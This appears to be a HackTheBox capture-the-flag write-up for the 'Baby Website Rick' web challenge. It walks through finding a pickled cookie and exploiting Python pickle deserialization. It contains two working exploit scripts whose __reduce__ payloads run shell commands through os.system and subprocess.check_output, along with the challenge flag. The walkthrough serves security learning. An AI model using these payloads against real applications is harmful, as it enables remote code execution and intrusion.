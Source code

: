 ```yaml
---
Category:
  - Web
Difficulty: Medium
Platform: HackTheBox
Status: 3. Complete
tags:
  - python-coding
  - pickle-deserialization
---
```

>[!quote]
> Look Morty, look! I turned myself into a website Morty, I'm Website Rick babyyy!! But don't play around with some of them anti pickle serum I have stored somewhere safe, if I turn back to a human I'll have to go to family therapy and we don't want that Morty.
> 

![Pasted image 20210908153753.png](../../zzz_res/attachments/Pasted_image_20210908153753.png)

# Set up

-

# Information Gathering

Running the instance of the challenge it is possible to browse to the Website Rick home page, where it is possible to read:

![baby website rick 1.png](../../zzz_res/attachments/baby_website_rick_1.png)

Don't play around with this serum morty!! and then the info `<__main__.anti_pickle_serum object at 0x7f88f526cf90>`

As also suggested by the title of the page, this challenge focuses on an insecure deserialization vulnerability.

Intercepting with Burpsuite the request sent to the server, it is possible to notice that the client sends a strange cookie, called plan_b. Decoding the cookie I can read some weird instruction like **main** or **builtin** object that suggest me something related to python, as also confirmed by the Server fingerprint.

![baby website rick 2.png](../../zzz_res/attachments/baby_website_rick_2.png)

At the moment I can already assume that playing around with the cookie probably will lead to some kind of code execution or file inclusion, however I don't know yet in what way.

Because the word "pickle" appears multiple times, I started documenting about what it is, discovering that pickle is a Python module used to serialize and deserialize objects. As also said within the official documentation, pickle is not secure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Ok, so plan_b is a cookie used to pass pickled serialized data to the server.

![baby website rick 3.png](../../zzz_res/attachments/baby_website_rick_3.png)

From what I just read from the documentation it is possible to send a malicious cookie in order to force the server to deserialize it and execute arbitrary code. But in which way?

The documentation shows different methods that can be used to manage pickle data, as well as another module, called pickletools, that can be used to disassemble pickled object. In order to better understand what is passed to the server, I wrote a small python script that decompile and optimize the plan_b cookie. The decompiled pickle is not very helpful, however it allows to understand that the server is expecting an anti_pickle_serum class object (as also suggested by the home page).

![baby website rick 4.png](../../zzz_res/attachments/baby_website_rick_4.png)

Ok, I've no idea on what to do next, so let's search online for any good article explaining this pickle vulnerability. One of the first results is this blog post from David's personal site [1] where it explains how to exploit a pickle deserialization vulnerability using the `reduce()` function.

The **reduce**() method takes no argument and shall return either a string or a tuple. The semantics of each item are in order:

A callable object that will be called to create the initial version of the object.

A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument.

So by implementing **reduce**() in a class, I can give the pickling process a callable and some other arguments to run. Potentially I can execute `os.system()` and some commands, as also shown by the David's PoC.

Based on its code I wrote a test exploit which implement the **reduce**() method and execute 'ls'. I gave to the class the same name used by the original pickle and I generated the serialized string. Mmm... Looking at the decompiled code it seems too different from the previous one, however let's see if the exploit work. Let me copy the string and paste it within the plan_b cookie. Crap, Internal Server Error. Probably the two objects differs too much.

After some trial and error I figured out how to generate almost the same serialized object. The script simply defines a void constructor and then generates the corresponding pickle. The two however are still different.

![baby website rick 5.png](../../zzz_res/attachments/baby_website_rick_5.png)

# Exploitation

Looking at the meaning of the decompiled SETITEM opcode I found out that it add a pair of Key-Value to an existing dictionary, meaning that my custom object must be pickled inside a dictionary in order to be equal the original one. Good! The two object are now the same, I have successfully reversed the original pickle and I'm able to generate valid serialized objects. Let's try to implement the **reduce**() method within this class and see if it works now that the result is the same of the original.

It works! Although it didn't show the result of the executed command, the server did not throw an Internal Server Error, instead it printed a "0" which is the value returned by the command - exit code -.

![baby website rick 6.png](../../zzz_res/attachments/baby_website_rick_6.png)

As said by this user on StackExchange "os.system() just run the process, it doesn't capture the output". In order to obtain the output of the command it is necessary to use a different function, like subprocess.check_output()

Ok, let's implement the new function.

Damn, it is better if I re-read the documentation... Right, I must return a tuple containing the function to call and a tuple of arguments. Maybe we are done. <500 Server Error> Oh my gosh!

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os

class anti_pickle_serum:
	def __init__(self):
		pass

	def __reduce__(self):
		return os.system, ("ls",)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
print(f'\n\nPayload: {payload}\n')
```

![Pasted image 20210826175353.png](../../zzz_res/attachments/Pasted_image_20210826175353.png)

Wait, this should be correct! Maybe python3 and python2 behave differently when generating the serialized object? The server uses python2 so let's try with that version. Here we go! I have successfully executed the ls command. Now let's update the script and obtain the flag!

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['cat', 'flag_wIp1b']
		#return os.system, (cmd,)
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
#print "Payload: "+payload
print(payload)
```

Good job Morty, now I have to go to family therapy

# Flag

>[!success]
>`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`

# Video Writeup

<iframe width="660" height="415" src="https://www.youtube.com/embed/TPAhM6W2Zaw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

